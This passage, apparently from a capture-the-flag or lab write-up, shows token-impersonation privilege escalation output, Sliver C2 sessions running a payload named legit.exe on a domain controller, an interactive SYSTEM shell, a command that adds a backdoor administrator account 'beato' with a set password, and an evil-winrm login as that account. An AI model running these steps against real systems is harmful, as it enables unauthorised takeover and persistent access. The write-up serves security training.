[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\a67e27ff-a573-4fb8-9b93-49f0d9d676dd\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004c02-00cc-ffff-24cb-5e541c6576fe
[*] DCOM obj OXID: 0x50ce2b3dcebfa086
[*] DCOM obj OID: 0xe83f28d190d4e0c0
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 940 Token:0x848  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4044

```

Now, we will see there is a new sessions.

```bash
[127.0.0.1] sliver > sessions 

 ID         Name              Transport   Remote Address      Hostname   Username                      Process (PID)                                          Integrity   Operating System   Locale   Last Message                               Health  
========== ================= =========== =================== ========== ============================= ====================================================== =========== ================== ======== ========================================== =========
 0627d070   HOMELY_STANDOFF   mtls        10.1.110.55:49891   DC01       HACK\alice.wonderland         C:\Users\alice.wonderland\Documents\legit.exe (3476)   -           windows/amd64      en-US    Wed Jul  1 22:43:14 HKT 2026 (29s ago)     [ALIVE] 
 0e0a07b4   HOMELY_STANDOFF   mtls        10.1.110.55:49993   DC01       NT Service\MSSQL$SQLEXPRESS   C:\Temp\legit.exe (5240)                               -           windows/amd64      en-US    Wed Jul  1 22:41:59 HKT 2026 (1m44s ago)   [ALIVE] 
 7550a061   HOMELY_STANDOFF   mtls        10.1.110.55:50066   DC01       HACK\DC01$                    C:\Temp\legit.exe (3900)                               -           windows/amd64      en-US    Wed Jul  1 22:41:59 HKT 2026 (1m44s ago)   [ALIVE] 

[127.0.0.1] sliver > sessions -i 7550a061 

[*] Active session HOMELY_STANDOFF (7550a061)

[127.0.0.1] sliver (HOMELY_STANDOFF) > shell

...
PS C:\Temp> whoami
whoami
nt authority\system

 
```

### Creating User

You can also create a new user and add it to the administators group (or change tyler’s password)

```bash
PS C:\Temp> .\god.exe -cmd "cmd /c net user beato Test1234! /add && net localgroup administrators beato /add"
.\god.exe -cmd "cmd /c net user beato Test1234! /add && net localgroup administrators beato /add"
...
The command completed successfully.

```

Now we can login as the new user

```bash
└─$ evil-winrm -i dc01.hack.smarter -u beato -p Test1234!
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\beato\Documents> whoami
hack\beato
...
*Evil-WinRM* PS C:\Users\beato\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```
